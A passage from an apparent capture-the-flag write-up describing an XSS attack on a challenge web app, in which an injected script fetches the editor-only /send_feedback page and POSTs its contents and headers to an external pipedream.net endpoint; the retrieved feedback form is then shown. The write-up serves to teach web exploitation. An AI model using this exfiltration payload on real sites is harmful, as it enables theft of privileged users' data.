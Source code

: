 But we found 2 interesting things in `location` and `source` fields.
* at the time of executing JS, the `href` field is set to: `http://zad38-2022-final:5000/show_article/<article_id>`. Since we now know the name of the host, we can call server's endpoints as editor without worrying about breaking [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS/Errors/CORSMissingAllowOrigin) policy.
* In the HTML source, we can see that there is one additional endpoint accessible for the editor - `/send_feedback`.
  
Let's check what editor sees after accessing this endpoint with Http `GET` method:
```
<script>
    // Send the request to GET send_feedback on editor's behalf
    let req = new XMLHttpRequest();
    req.open("GET", "http://zad38-2022-final:5000/send_feedback");
    req.send();

    // Wait 1 second so the response arrives
    setTimeout(() => {

        // Send the response from the server (+ headers)
        const data = { 
            content: req.response,
            resp_headers: req.getAllResponseHeaders(), 
        };

        fetch('https://eozy3pwhxz589s.m.pipedream.net', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(data),
        });

    }, "1000");
</script>
```

We successfully received the HTML source. In the source we can find an HTML form:
```
<form method="POST">
  <div class="form-group">
    <label for="receiver">Login odbiorcy</label>
    <input type="text" class="form-control" id="receiver" name="receiver" placeholder="Username">
  </div>
  <div class="form-group">
    <label for="content">Treść</label>
    <textarea class="form-control" id="content" name="content" rows="3"></textarea>
  </div>
  <div class="form-check">
    <input type="checkbox" class="form-check-input" id="debug" name="debug">
    <label class="form-check-label" for="debug">Dołącz informacje diagnostyczne na temat systemu (testowa funkcjonalność)</label>
  </div>
  <div class="form-group">
      <button class="btn btn-primary" type="submit">Wyślij</button>
  </div>
</form>
```
